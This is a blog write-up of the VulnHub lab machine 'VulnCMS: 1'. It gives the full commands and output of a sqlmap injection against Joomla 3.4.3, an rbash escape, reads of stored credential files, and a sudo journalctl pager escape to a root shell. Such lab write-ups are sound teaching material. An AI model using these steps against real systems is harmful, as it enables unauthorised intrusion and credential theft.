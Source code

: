 ```yaml
---
layout: post
title:  "Vulnhub: VULNCMS: 1"
date:   2021-06-18 20:30:00 +1000
category: hacking
---
```


## VulnCMS
This is [VULNCMS: 1](https://www.vulnhub.com/entry/vulncms-1,710/) from VulnHub. We've got some new machines, so let's go. 

## Ports
We've got SSH on 22; a website on 80. And then we've got Wordpress on 5000, Joomla on 8081 and Drupal on 9001. Where shall we start?

## Wordpress?
nmap says:

>_http-generator: WordPress 5.7.2

That's a recent version; if there was a vulnerability in WP core I'd probably have heard about it. Of course it could be a plugin, but let's pass for now.

## Drupal
{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/vulncms]
└─# droopescan scan drupal -u http://192.168.1.241:9001         
[+] Plugins found:                                                              
    profile http://192.168.1.241:9001/modules/profile/
    php http://192.168.1.241:9001/modules/php/
    image http://192.168.1.241:9001/modules/image/

[+] Themes found:
    seven http://192.168.1.241:9001/themes/seven/
    garland http://192.168.1.241:9001/themes/garland/

[+] Possible version(s):
    7.54

[+] Possible interesting urls found:
    Default changelog file - http://192.168.1.241:9001/CHANGELOG.txt

[+] Scan finished (0:00:07.905186 elapsed)
{% endhighlight %}

A quick search doesn't find anything obvious for version 7.54; let's move on. 

## Joomla
{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/vulncms]
└─# joomscan --url http://192.168.1.241:8081
{% endhighlight %}

This turns up:

>[+] Detecting Joomla Version  
[++] Joomla 3.4.3

Which *is* vulnerable to SQLi. There are some scripts; I run **sqlmap** with this command:

```
sqlmap -u "http://192.168.1.241:8081//index.php?option=com_contenthistory&view=history&list[ordering]=&item_id=75&type_id=1&list[select]=*"  --technique=E --dbs --dump
```

The moon rises and falls. Seasons change. Little babies grow into adults. Eventually, the entire database is dumped. Ok yes this was my fault for not optimising the query - but it's my time I wasted.

We get some hashes (can't break), and this:

>47,elliot,<blank>,1,5T3e!_M0un7i@N,<blank>, AND OTHER STUFF

With this, which was in *users*, we can SSH in as Elliot.

## Elliot
Elliot has rbash; don't be like Elliot:

{% highlight shell %}
Last login: Thu Jun 17 11:49:58 2021 from 192.168.1.210
elliot@vuln_cms:~$ cd /
-rbash: cd: restricted
elliot@vuln_cms:~$ python3 -c 'import pty;pty.spawn("/bin/bash");'
elliot@vuln_cms:~$ cd /dev/shm
elliot@vuln_cms:/dev/shm$
{% endhighlight %}

Elliot can't run sudo. I run linpeas but get nothing very useful. I find this:

{% highlight shell %}
elliot@vuln_cms:/$ cd opt
elliot@vuln_cms:/opt$ ls -lash
total 12K
4.0K drwxr-xr-x  2 root root 4.0K May 31 07:59 .
4.0K drwxr-xr-x 24 root root 4.0K Jun 17 11:20 ..
4.0K -rw-r--r--  1 root root   69 May 31 07:58 8081.cred
elliot@vuln_cms:/opt$ cat 8081.cred 
Username: joomlaCMS_admin
Password: _q4gWWJuBWt8cqfbUm-cdevR?L@N7-pR
{% endhighlight %}

Not useful. I find this:

{% highlight shell %}
elliot@vuln_cms:/var/www/html/home/vulnerable$ ls -lash
total 2.0M
4.0K drwxr-xr-x 2 tyrell tyrell 4.0K May 31 07:45 .
4.0K drwxr-xr-x 3 tyrell tyrell 4.0K May 30 09:34 ..
1.3M -rw-r--r-- 1 tyrell tyrell 1.3M May 26 06:54 image1.png
 16K -rw-r--r-- 1 tyrell tyrell  15K May 26 06:55 image2.jpg
156K -rw-r--r-- 1 tyrell tyrell 153K May 26 06:55 image3.jpg
 96K -rw-r--r-- 1 tyrell tyrell  94K May 31 07:44 image4.jpg
352K -rw-r--r-- 1 tyrell tyrell 352K May 26 07:07 image5.jpg
 24K -rw-r--r-- 1 tyrell tyrell  22K May 26 07:08 image6.gif
elliot@vuln_cms:
{% endhighlight %}

Notice the date on image4 is different?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/vulncms]
└─# stegseek image4.jpg           
StegSeek version 0.5
Progress: 0.00% (0 bytes)           

[i] --> Found passphrase: "123456789"
[i] Original filename: "wp_pass.txt"
[i] Extracting to "image4.jpg.out"
                                                                                                                                                                            
┌──(root💀kali)-[/opt/vulnhub/vulncms]
└─# cat image4.jpg.out           
Random URLs are helpful but 5000 times
{% endhighlight %}

Not useful.

Then I find this:

{% highlight shell %}
elliot@vuln_cms:/var/www/html/drupal/misc$ ls -lash
total 504K
4.0K drwxr-xr-x 4 tyrell tyrell 4.0K May 31 10:47 .
4.0K drwxr-xr-x 9 tyrell tyrell 4.0K May 31 09:17 ..
# snip
4.0K -rwxr-xr-x 1 tyrell tyrell  129 Feb  1  2017 tree-bottom.png
4.0K -rwxr-xr-x 1 tyrell tyrell  130 Feb  1  2017 tree.png
4.0K -rw-r--r-- 1 root   root     45 May 31 10:47 tyrell.pass
4.0K drwxr-xr-x 3 tyrell tyrell 4.0K Feb  1  2017 ui
# snip
elliot@vuln_cms:/var/www/html/drupal/misc$ cat tyrell.pass 
Username: tyrell
Password: mR_R0bo7_i5_R3@!_
elliot@vuln_cms:/var/www/html/drupal/misc$ su tyrell
Password: 
tyrell@vuln_cms:/var/www/html/drupal/misc$ sudo -l
Matching Defaults entries for tyrell on vuln_cms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tyrell may run the following commands on vuln_cms:
    (root) NOPASSWD: /bin/journalctl
tyrell@vuln_cms:
{% endhighlight %}

Definitely useful.

{% highlight shell %}
tyrell@vuln_cms:/var/www/html/drupal/misc$ sudo -u root /bin/journalctl
-- Logs begin at Fri 2021-05-28 12:16:41 UTC, end at Fri 2021-06-18 10:55:53 UTC
May 28 12:16:41 vuln_cms kernel: Linux version 4.15.0-143-generic (buildd@lcy01-
May 28 12:16:41 vuln_cms kernel: Command line: BOOT_IMAGE=/vmlinuz-4.15.0-143-ge
# snip
May 28 12:16:41 vuln_cms kernel: NX (Execute Disable) protection: active
!/bin/sh
# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
vuln_cms
Fri Jun 18 10:56:11 UTC 2021
# cd /root
# ls
root.txt
# cat root.txt
4359537020406305
{% endhighlight %}

And done.
